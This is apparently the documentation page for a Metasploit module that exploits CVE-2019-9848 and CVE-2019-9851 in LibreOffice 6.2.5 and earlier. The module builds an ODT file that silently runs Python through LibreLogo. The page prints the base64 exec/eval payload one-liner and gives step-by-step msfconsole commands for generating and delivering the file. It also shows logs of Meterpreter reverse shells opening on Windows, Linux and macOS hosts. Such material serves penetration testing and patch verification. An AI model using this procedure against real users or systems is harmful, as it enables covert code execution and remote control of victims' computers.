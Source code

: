 ## Description

  This module exploits CVE-2019-9848, CVE-2019-9851 and is based on the module exploiting CVE-2018-16858, written by Shelby Pace.

  LibreOffice has a feature where documents can specify that pre-installed scripts can be executed on various document events such as mouse-over, etc. LibreOffice is typically also bundled with LibreLogo, a programmable turtle vector graphics script, which can be manipulated into executing arbitrary python commands. 

  By using the document event feature to trigger LibreLogo to execute python contained within a document a malicious document could be constructed which would execute arbitrary python commands silently without warning. 

  This module generates an ODT file with a global dom loaded event that, when triggered, will execute any arbitrary python code and the metasploit payload. LibreLogo executes the python code stored on the text part of the document.

  The generated document file contains a one-liner python code that executes the python payload generated by metasploit : 

  ```python
  exec(eval(str(__import__('base64').b64decode('#{b64_py_code}'))))
  ```

  To avoid any python error, the `h1` title written in the document is a python comment `#`.
  
  Thanks to Shelby Pace, this module is now platform-independent.

## Vulnerable Application

  LibreOffice version 6.2.5 and prior.

  This module has been tested successfully with:

  * LibreOffice 6.2.4 on Windows 7
  * LibreOffice 6.2.4 on Debian 9.9
  * LibreOffice 6.2.5 on Debian 9.9
  * LibreOffice 6.2.5 on Windows 7
  * LibreOffice 6.2.5 on Windows 10
  * LibreOffice 6.2.5 on Ubuntu 18.04
  * LibreOffice 6.2.5 on macOS 10.13.6

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_logo_exec```
  4. Do: ```set LHOST <ip>```
  5. Do: ```set LPORT <port>```
  6. Do: ```run```
  7. Move the generated file to the targets
  8. Start a handler
  9. Open the file with a vulnerable version of LibreOffice
 10. You should get a shell.

## Scenarios

### LibreOffice 6.2.5 on Windows 10

  ```
  msf exploit(multi/handler) > run
  
  [*] Started reverse TCP handler on 192.168.56.4:4444 
  [*] Sending stage (53755 bytes) to 192.168.56.3
  [*] Meterpreter session 3 opened (192.168.56.4:4444 -> 192.168.56.3:51259) at 2019-08-18 08:57:20 -0400
  
  meterpreter > sysinfo
  Computer        : LL
  OS              : Windows 10 (Build 17134)
  Architecture    : x64
  System Language : fr_FR
  Meterpreter     : python/windows
  ```

### LibreOffice 6.2.5 on Ubuntu 18.04
  ```
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (53755 bytes) to 192.168.37.137
  [*] Meterpreter session 3 opened (192.168.37.1:4444 -> 192.168.37.137:46668) at 2019-08-16 15:38:54 -0500

  meterpreter > sysinfo
  Computer        : ubuntu
  OS              : Linux 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019
  Architecture    : x64
  System Language : en_US
  Meterpreter     : python/linux
  ```
  
### LibreOffice 6.2.5 on macOS 10.13.6

  ```
  msf exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
  payload => python/meterpreter/reverse_tcp
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.56.4:4444 
  [*] Sending stage (53755 bytes) to 192.168.56.2
  [*] Meterpreter session 1 opened (192.168.56.4:4444 -> 192.168.56.2:50795) at 2019-08-18 08:17:43 -0400

  meterpreter > sysinfo
  Computer        : MBP.local
  OS              : Darwin 17
  Architecture    : x64
  System Language : en_GB
  Meterpreter     : python/osx
  ```

